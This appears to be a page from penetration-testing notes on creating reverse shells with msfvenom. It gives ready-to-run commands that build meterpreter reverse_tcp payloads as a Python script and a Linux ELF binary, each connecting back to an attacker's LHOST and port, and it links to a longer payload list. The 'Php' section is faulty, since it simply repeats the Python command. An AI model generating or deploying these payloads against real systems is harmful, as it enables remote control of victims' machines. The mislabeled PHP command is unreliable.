 # Creating reverse-shells


In the chapter Basics I linked to some reverse shells. Another way to create reverse shells is by using msfvenom.

Here is a good list for creating shells with msfvenom. 
http://netsec.ws/?p=331

## Python

```
msfvenom -p python/meterpreter/reverse_tcp LHOST=192.168.1.102 LPORT=5555 > python_meterpter_reverse_tcp.py
```

## Php

```
msfvenom -p python/meterpreter/reverse_tcp LHOST=192.168.1.102 LPORT=5555 > python_meterpter_reverse_tcp.py
```

## Linux elf

This one has worked great for me.
```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf
```